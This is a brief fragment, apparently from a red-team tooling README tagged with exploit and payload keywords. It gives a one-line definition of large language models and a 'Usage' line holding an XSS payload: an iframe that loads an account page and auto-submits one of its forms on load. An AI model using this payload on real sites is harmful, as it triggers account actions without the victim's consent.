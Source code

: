 #Exploit #Generation #Payload #Red-Team #Vulnerability 

## What is LLM?

#### LLM stands for **Large Language Model**. It's a type of AI trained on a huge amount of text to understand and generate human-like language. Examples include ChatGPT and GPT-4.

## Usage: 

#### With XSS, APIs and Tricks: `"<iframe src =my-account onload = this.contentDocument.forms["BUTTON"].submit() >"`
